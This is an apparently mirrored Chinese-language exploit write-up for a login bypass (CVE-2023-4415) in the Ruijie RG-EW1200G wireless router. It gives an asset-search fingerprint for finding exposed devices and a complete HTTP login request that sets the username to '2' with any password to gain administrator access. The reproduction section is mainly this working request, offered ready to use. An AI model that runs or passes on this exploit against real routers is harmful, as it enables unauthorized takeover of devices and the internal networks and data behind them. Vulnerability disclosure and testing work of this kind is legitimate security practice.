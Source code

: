 # 锐捷RG-EW1200G路由器登录绕过（CVE-2023-4415）

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">锐捷网络RG-EW1200G 存在登录绕过逻辑漏洞，允许任何用户无需密码即可获得设备管理员权限。登录路由器，获取敏感信息，控制内部网络</font>

# 二、影响版本
+ <font style="color:rgba(0, 0, 0, 0.9);">RG-EW1200G无线路由器</font>

# 三、资产测绘
```plain
body="/static/js/app.09df2a9e44ab48766f5f.js"
```

![1711861011537-b26157a8-4ea8-4b53-9e61-798dd6a3cb05.png](./img/3ET-mOfgefETA8gY/1711861011537-b26157a8-4ea8-4b53-9e61-798dd6a3cb05-166465.png)

+ 登录页面

![1711860999021-84f63469-af01-48b1-8a8f-5d94d53d0fd0.png](./img/3ET-mOfgefETA8gY/1711860999021-84f63469-af01-48b1-8a8f-5d94d53d0fd0-381136.png)

# 四、漏洞复现
1. 输入任意密码抓包然后修改usernam为2

```plain
POST /api/sys/login HTTP/1.1
Host: 
Content-Length: 63
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"username":"2","password":"dsaff","timestamp":1695813951000}
```

![1711860903082-cb6573f6-4e1e-458e-97c7-1f16a736665e.png](./img/3ET-mOfgefETA8gY/1711860903082-cb6573f6-4e1e-458e-97c7-1f16a736665e-437495.png)

![1711861062625-d4b54cd2-b4dc-4d66-a6ea-f5b5d18788af.png](./img/3ET-mOfgefETA8gY/1711861062625-d4b54cd2-b4dc-4d66-a6ea-f5b5d18788af-026357.png)



> 更新: 2024-06-24 11:42:27  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/dnkvdymiquisy7gd>